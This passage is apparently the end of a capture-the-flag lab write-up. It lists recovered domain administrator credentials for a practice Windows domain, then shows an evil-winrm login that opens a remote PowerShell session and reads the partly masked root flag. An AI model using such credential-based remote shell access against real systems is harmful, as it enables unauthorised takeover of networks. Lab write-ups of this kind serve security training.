Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!

```

```
# evil-winrm -i 10.10.10.172 -u 'administrator' -p 'd0m@in4dminyeah!'
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
47c542b6d**************
```

Get your root flag